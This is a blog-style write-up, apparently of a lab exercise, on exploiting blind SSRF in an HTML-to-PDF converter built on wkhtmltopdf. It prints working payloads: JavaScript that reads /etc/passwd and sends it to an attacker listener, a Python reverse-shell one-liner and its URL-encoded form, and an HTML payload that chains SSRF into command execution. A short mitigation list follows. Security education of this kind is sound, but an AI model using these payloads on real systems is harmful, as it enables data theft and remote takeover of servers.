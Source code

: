 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23 19:08:00
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

    <!DOCTYPE html>
    <html>
    <body>
        <a>Hello World!</a>
        <img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
    </body>
    </html>


## Simplifying SSRF Blind Testing with Netcat

For our testing purposes, we employ a simple Netcat listener running on a virtual machine (VM), set to listen on port 9090. This setup allows us to capture any incoming requests and observe the web application's external interactions, which are pivotal in identifying and exploiting SSRF vulnerabilities.

### Setting Up the Netcat Listener

Here's the command to set up the Netcat listener, crucial for our SSRF testing:

  
    sudo nc -nlvp 9090
   

This command configures Netcat to listen on all interfaces at port 9090, ready to log any incoming requests.

### Observations After Submitting the HTML File

Upon submitting an HTML file containing external resource references, the application attempts to fetch these resources. This behavior confirms the existence of an SSRF vulnerability as it shows the application making unauthorized external network calls based on HTML content.

## JavaScript Exploitation and Data Exfiltration

Further exploration reveals that the application's PDF conversion tool, wkhtmltopdf, supports JavaScript execution within HTML files. We exploit this feature to perform data exfiltration as demonstrated below:

    
    <html>
    <body>
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "file:///etc/passwd", true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                // Encode the file contents in base64
                var b64content = btoa(xhr.responseText);
                // Send the encoded data to our external server
                var exfil = new XMLHttpRequest();
                exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
                exfil.send();
            }
        };
        xhr.send();
        </script>
    </body>
    </html>


This script reads the local `/etc/passwd` file and sends its Base64-encoded contents to our Netcat listener, showcasing a direct method of exploiting the SSRF vulnerability to extract sensitive information.


# Blind SSRF Exploitation with Netcat and Base64 Decoding

In this scenario, we use two XMLHttpRequest objects: one for reading local files and another to send this data to our server, encoded in Base64.

## Starting an HTTP Server and Sending Data

We start an HTTP server and send an HTML file that waits for a response and decodes the content after processing.

### Netcat Listener


    sudo nc -nlvp 9090
    Listening on 0.0.0.0 9090


### Base64 Decoding

We decode the information using Base64 to view the data received, which includes commands and system user information.

echo "BASE64_DATA" | base64 -d


## Blind SSRF Exploitation Scenario

We continue to exploit an internal application vulnerable to SSRF to execute remote commands on the target server. In this scenario, we use an HTML document with a specific payload to exploit the application.

### Bash Reverse Shell

We set up and encode a reverse shell payload to gain remote control of the server.

    export RHOST="<VPN/TUN IP>"; export RPORT="<PORT>"; python -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'


### Encoded URL Payload

    export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527


### HTML Payload

    <html>
        <body>
            <b>Reverse Shell via Blind SSRF</b>
            <script>
            var http = new XMLHttpRequest();
            http.open("GET","http://host_ip/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
            http.send();
            http.onerror = function(){document.write('<a>Oops!</a>');}
            </script>
        </body>
    </html>


Once we initiate a Netcat listener on our machine and send the above HTML file, we will receive a reverse shell from host.


## Mitigation Strategies

To mitigate blind SSRF vulnerabilities effectively, it is crucial to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server is permitted to access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, especially in applications that process external inputs to interact with internal or external resources. Understanding and implementing robust mitigation strategies are vital for securing web applications against these potential attacks and data breaches.